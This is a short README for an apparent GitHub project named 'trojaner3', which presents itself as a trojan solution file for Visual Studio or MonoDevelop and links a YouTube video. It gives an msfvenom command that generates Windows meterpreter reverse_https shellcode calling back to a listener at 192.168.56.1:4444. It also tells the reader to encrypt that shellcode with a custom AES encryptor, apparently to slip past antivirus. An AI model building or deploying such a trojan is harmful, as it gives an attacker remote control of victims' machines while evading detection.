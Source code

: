 # trojaner3
trojan solutionfile for monodevelop or visual studio

watch my video on youtube https://youtu.be/18bL0rXaN10

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp

and encrypt it with aesencryptor2.exe(you must build aesencryptor2.cs)

